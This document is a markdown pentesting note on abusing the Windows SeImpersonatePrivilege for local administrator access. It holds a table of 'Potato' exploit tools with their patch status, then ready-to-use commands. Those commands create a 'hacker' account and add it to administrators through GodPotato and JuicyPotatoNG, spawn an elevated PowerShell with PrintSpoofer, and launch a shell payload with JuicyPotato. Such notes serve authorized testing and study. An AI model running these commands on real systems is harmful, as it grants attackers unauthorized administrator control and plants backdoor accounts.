```yaml
---
title: SeImpersonatePrivilege
---
```


This [[notes/windows/privilege]] allows to impersonate any token for which you can get handle and can be leveraged to become to local admin.

# Tools

Name | Release | Compatibility
-----|---------|--------------
[GodPotato](https://github.com/BeichenDream/GodPotato) | 04.23. | Windows Server 2012 - 2022, unpatched
[LocalPotato](https://github.com/decoder-it/LocalPotato) | 02.23. | Windows 10 - 11 | patched January 2023, but relay to local WebDAV won't be fixed ([source](https://twitter.com/decoder_it/status/1652309476530085889))
[RasmanPotato](https://github.com/crisprss/RasmanPotato) | 02.23. | Windows 10, Windows Server 2012 - 2019, unpatched
[McpManagementPotato](https://github.com/zcgonvh/DCOMPotato) | 12.22. | Windows 10 21H2 confiremd, unknown ([source](https://twitter.com/secu_x11/status/1675481117384646656))
[PrintNotifyPotato](https://github.com/BeichenDream/PrintNotifyPotato) | 12.22. | Windows 10 - 11, Windows Server 2012 - 2022, unpatched
[JuicyPotatoNG](https://github.com/antoniococo/juicypotatong) | 10.22. | Windows 10 - 11 22H1, up to Windows Server 2022, patched on Windows 11 22H2 ([source](https://github.com/antonioCoco/JuicyPotatoNG/issues/4))
[DiagTrackEoP](https://github.com/wh04m1001/diagtrackeop) | 07.22. | at least Windows Server 2019
[SweetPotato](https://github.com/CCob/SweetPotato) | 05.22. | implements RottenPotato, RogueWinRM, JuciyPotato, PrintSpoofer and EfsPotato, Windows Server 2008 to 2019
[EfsPotato](https://github.com/zcgonvh/EfsPotato) | 11.21. | unknown
[RemotePotato0](https://github.com/antonioCoco/RemotePotato0) | 08.21. | patched since October 2022 ([source](https://twitter.com/splinter_code/status/1583555613950255104))
[Gotato](https://github.com/iammaguire/Gotato) | 07.21. | GenericPotato in Go
[GenericPotato](https://github.com/micahvandeusen/GenericPotato) | 04.21. | creates HTTP or named pipe listener and impersonates users that connect, requires separate trigger
[JuicyPotato](https://github.com/ohpe/juicy-potato) | 03.21. | improved RottenPotatoNG, up to Windows Server 2016, patched since Windows 10 1809 and Windows Server 2019
[RoguePotato](https://github.com/antoniococo/roguepotato) | 05.20. | at least up to Windows Server 2019
[PrintSpoofer.NET](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET) | 03.21. | variant that does not require interactive logon
[PrintSpoofer](https://github.com/itm4n/printspoofer) | 05.20. | at least up to Windows Server 2019, unpatched
[RogueWinRM](https://github.com/antonioCoco/RogueWinRM) | 02.20. | patched on Windows 11 22H2 ([source](https://twitter.com/decoder_it/status/1616515769088737280))
[GhostPotato](https://github.com/Ridter/GhostPotato) | 11.19. | patched since 2019
[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) | 12.17. | improved RottenPotato
[RottenPotato](https://github.com/foxglovesec/RottenPotato) | 12.17. | patched since Windows 10 1809 and Windows Server 2019
[HotPotato](https://github.com/foxglovesec/Potato) | 02.16. | patched since 2016

GodPotato on Windows Server 2019.

~~~ bat
.\GodPotato.exe -cmd "cmd /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

JuicyPotatoNG on Windows Server 2022.
On Windows 11 and Windows Server 2022 use class id `A9819296-E5B3-4E67-8226-5E72CE9E1FB7` ([source](http://web.archive.org/web/20221023144236/https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/)).

~~~ bat
.\JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

PrintSpoofer on Windows Server 2019.

~~~ bat
.\PrintSpoofer.exe -c powershell.exe -i
~~~

JuicyPotato on Windows Server 2016.
Try [different CLSIDs](https://github.com/ohpe/juicy-potato/tree/master/CLSID/).

~~~ bat
.\JuicyPotato.exe -l 6666 -p %TEMP%\shell.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
~~~

References:

- [Exploring Impersonation through the Named Pipe Filesystem Driver](http://web.archive.org/web/20230504073128/https://scribe.rip/@specterops/exploring-impersonation-through-the-named-pipe-filesystem-driver-15f324dfbaf2)
- [In the Potato family, I want them all](http://web.archive.org/web/20230224075943/https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all)
- [Giving JuicyPotato a second chance: JuicyPotatoNG](http://web.archive.org/web/20220922132749/https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/)
- [Windows privilege escalation with potatoes](http://web.archive.org/web/20221020142112/https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
